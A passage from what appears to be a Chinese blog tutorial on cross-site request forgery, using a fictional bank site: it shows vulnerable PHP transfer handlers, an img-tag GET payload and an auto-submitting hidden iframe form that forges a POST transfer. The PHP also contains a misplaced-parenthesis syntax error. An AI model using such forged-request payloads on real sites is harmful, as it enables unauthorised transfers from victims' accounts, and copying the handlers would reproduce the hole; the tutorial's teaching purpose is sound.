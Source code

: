 　　后台处理页面Transfer.php如下：

![复制代码](http://common.cnblogs.com/images/copycode.gif)

　　<? php
　　　　session_start ();
　　　　if ( isset ( $_REQUEST [ ' toBankId ' ] &&  isset ( $_REQUEST [ ' money ' ]))
　　　　{
　　　　  buy_stocks( $_REQUEST [ ' toBankId ' ] ,  $_REQUEST [ ' money ' ]);
　　　　}
　　?>

![复制代码](http://common.cnblogs.com/images/copycode.gif)

　　危险网站B，仍然只是包含那句HTML代码：

　　 < img src =http://www.mybank.com/Transfer.php?toBankId=11&money=1000 >

　　和示例1中的操作一样，你首先登录了银行网站A，然后访问危险网站B，结果.....和示例1一样，你再次没了1000块～T_T，这次事故的原因是：银行后台使用了$_REQUEST去获取请求的数据，而$_REQUEST既可以获取GET请求的数据，也可以获取POST请求的数据，这就造成了在后台处理程序无法区分这到底是GET请求的数据还是POST请求的数据。在PHP中，可以使用$_GET和$_POST分别获取GET请求和POST请求的数据。在JAVA中，用于获取请求数据request一样存在不能区分GET请求数据和POST数据的问题。

　　**示例3：**

　　经过前面2个惨痛的教训，银行决定把获取请求数据的方法也改了，改用$_POST，只获取POST请求的数据，后台处理页面Transfer.php代码如下：

![复制代码](http://common.cnblogs.com/images/copycode.gif)

　　 <? php
　　　　 session_start ();
　　　　 if ( isset ( $_POST [ ' toBankId ' ] &&  isset ( $_POST [ ' money ' ]))
　　　　{
　　　　  buy_stocks( $_POST [ ' toBankId ' ] ,  $_POST [ ' money ' ]);
　　　　}
　　 ?>

![复制代码](http://common.cnblogs.com/images/copycode.gif)

　　然而，危险网站B与时俱进，它改了一下代码：

![复制代码](http://common.cnblogs.com/images/copycode.gif)

< html >
　　< head >
 < script type ="text/javascript" >
　　　　　　function steal()
　　　　　　{
     　　　　 iframe = document.frames[ " steal " ];
　　   　   iframe.document.Submit( " transfer " );
　　　　　　}
　　　　</ script >
　　</ head >

　　 < body onload ="steal()" >
　　 　< iframe name ="steal" display ="none" >
　　　　　　< form method ="POST" name ="transfer" action ="http://www.myBank.com/Transfer.php" >
　　　　　　　　 < input type ="hidden" name ="toBankId" value ="11" >
　　　　　　　　 < input type ="hidden" name ="money" value ="1000" >
　　　　　　 </ form >
　　　　</ iframe >
　　</ body >
</ html >
